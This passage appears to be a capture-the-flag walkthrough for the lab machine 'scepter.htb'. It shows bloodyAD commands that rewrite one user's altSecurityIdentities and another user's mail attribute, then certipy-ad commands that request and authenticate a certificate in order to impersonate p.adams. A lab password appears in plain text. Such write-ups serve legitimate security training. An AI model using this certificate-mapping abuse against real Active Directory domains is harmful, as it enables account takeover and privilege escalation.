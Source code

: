 ![](images/Pasted%20image%2020250718183447.png)
h.brown is a component of Certificate Management Service,(CMS) so the certificate-related attributes of other users can be modified in the same way

# altSecurityIdentities exploit
First modify `p.adams` `altSecurityIdentities` property with h.brown identity
```
bloodyAD --dc-ip 10.10.11.65 --host dc01.scepter.htb -d scepter.htb -k set object p.adams altSecurityIdentities -v 'X509:<RFC822>h.brown@scepter.htb'
```
Then Modify `d.baker` mail
```
bloodyAD -d "scepter.htb" -u "a.carter" -p 'Abc123456@' --host "dc01.scepter.htb" set object "d.baker" mail -v "p.adams@scepter.htb"
```

Request a `p.adams` certificate using the d.baker identity
```
export KRB5CCNAME="d.baker.ccache"

certipy-ad req -k -username "p.adams" -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate' -out p.adams
```

Authentication of `p.adams` certificate
```
certipy-ad auth -pfx "padams.pfx" -domain "scepter.htb" -dc-ip "10.10.11.65" -username "p.adams"

export KRB5CCNAME=p.adams.ccache
```
